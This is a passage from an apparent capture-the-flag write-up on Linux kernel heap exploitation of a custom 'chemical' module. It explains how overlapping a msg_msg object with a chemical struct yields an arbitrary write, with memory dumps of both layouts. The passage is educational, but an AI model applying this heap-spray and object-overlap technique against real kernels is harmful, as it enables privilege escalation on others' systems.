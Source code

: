 By the way, the spray sizes I used in my final exploit are way too excessive - you can probably get by with much less!
(pls no kernel abuse)

## Step 3: Fake chemicals

With `msg_msg` and `chemical` now overlapping, let's consider our options. Because `chemical` can't be edited, what we
have from `chemical` overlapping `msg_msg` is a free on `msg_msg`, but no control over `msg_msg` fields. In contrast,
what we have from `msg_msg` overlapping `chemical` is that `msg_msg` can overwrite `chemical` fields upon allocation.
This means that `msg_msg` has to be the initial arb write to overwrite `chemical` fields, and we know this is very
possible from the layout of both structs, because the input buffer of `msg_msg` overlaps the fields in `chemical`.

```
chemical

0xffff888100f8cd00:     0x0000000000000000      0x0000000000000000 -> name..
0xffff888100f8cd10:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd20:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd30:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd40:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd50:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd60:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd70:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd80:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd90:     0x0000000000000000      0x0000000000000000
0xffff888100f8cda0:     0x0000000000000000      0x0000000000000000
0xffff888100f8cdb0:     0x0000000000000000      0x0000000000000000
0xffff888100f8cdc0:     0x0000000000000000      0x00000000deadbeef -> ..name, quantity
0xffff888100f8cdd0:     0x00000000cafebabe      0x0000000000000000 -> cas, idx
0xffff888100f8cde0:     0xffffffffc0002640      0xffff888100f8cce0 -> fd, bk
0xffff888100f8cdf0:     0x0000000000000040      0xffff888100fb3540 -> note_size, note_addr

msg_msg

0xffff888100f8cd00:     0xffff888103b06800      0xffff88810279c400 -> fd, bk
0xffff888100f8cd10:     0x0000000000000256      0x00000000000000d0 -> mtype, m_textsize
0xffff888100f8cd20:     0x0000000000000000      0xffff888101d26dc8 -> next, security
0xffff888100f8cd30:     0x0000000000001218      0x0000000000000000 -> user input starts here
0xffff888100f8cd40:     0x0000000000000000      0x0000000000000000
0xffff888100f8cd50:     0x0000000000422245      0x0000000000000000
0xffff888100f8cd60:     0x00000000004ab7a0      0x0000000000000290
0xffff888100f8cd70:     0x0000000000414470      0x00000000016e2d00
0xffff888100f8cd80:     0x0000000000000300      0x0000000000000000
0xffff888100f8cd90:     0x0000000000000000      0x0000000000021000
0xffff888100f8cda0:     0x0000000000000000      0x0000000000000000
0xffff888100f8cdb0:     0x0000000000000290      0x0000000000000027
0xffff888100f8cdc0:     0x0000000000000280      0x0000000000000256
0xffff888100f8cdd0:     0x0000000000000256      0x0000000000000000
0xffff888100f8cde0:     0x0000000000000000      0x0000000000000000
0xffff888100f8cdf0:     0x0000000000000000      0x0000000000000000
```
